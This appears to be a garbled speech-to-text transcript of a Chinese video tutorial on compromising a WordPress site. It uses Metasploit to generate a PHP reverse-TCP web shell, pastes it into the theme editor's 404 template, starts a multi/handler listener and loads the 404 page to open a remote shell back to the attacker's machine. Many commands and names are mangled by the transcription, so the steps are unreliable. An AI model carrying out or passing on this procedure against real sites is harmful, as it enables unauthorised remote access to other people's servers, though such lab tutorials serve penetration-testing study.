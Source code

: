 Matter， printerer。Reverse。TCP之后areho。Aello host。等于。我们来查看一下咱们本地的IP地址。192。16825312copy。

我们给它copy出来pas了之后，low port等于。4444之后，我们设置输出格式为ro输出对应的源代码回撤。那么咱们这时候就生成了一个返回。

1921682531IP地址80端口的这样1个web shell。那我们下面把这个web shell给它复制到。我们w past后台。在。appres这里有一个edator。打开该页面之后。

我们寻找404模板这样一个页面。在该页面当中，我们把刚才复制出来的web shell粘贴到这里之后，点击upload file。那么咱们这时候404tamp。lateate呃这样一个模板文件。

保存的就是咱们该外效。咱们在上传web shell之后，哎，需要监听ge shell之后访问404这样一个文件执行咱们的 shell。

那么咱们这时候mattter bullet就会得到咱们该反弹的 shellll。下面咱们打开mattter bullet。来使用监听back。这时候哎咱们使用useepo。Mael handler。

设置set payload PhHP。买车。Prier。Reverse。TCP回车so options查看对应的选项set low host192。168点。253点。

这里咱们监听的啊是咱们本机的IP地址，我们来查看一下。要。样回车。那么咱们在设置结束之后使用rung。来开启监听。那么咱们接下来需要使用浏览器来访问该站点的404文件。这里哎咱们把该目录啊拷贝出来。

打6。P content theme。接下来我们输入。八场IP是一架。点168。253。20之后，water price twentyenty fourteen。

我们来查看一下该主题是twenty seventeen。2017 S EV EN。404维车啊，这时候没有找到这样一个目录，我们来继续查看。呃，17。Can seem。没执行。寻找这样一个目录。

先把这里复制出来。2017。17。之后404。点PP回撤，我们依然没有找到。呃，接下来我们使用以下的这样一个链接来访问对应的404web shell之后。

在我们mattterpo监听端口获得对应的 shellll。下面呃我们来访问该 shell。在这里哎，我们复制出来。复制之后粘贴到我们对应的浏览器当中。



![](img/f57b3f74dd2a713eb4e908dd1c3cd6ce_9.png)

回车咱们回到对你的监听界面。
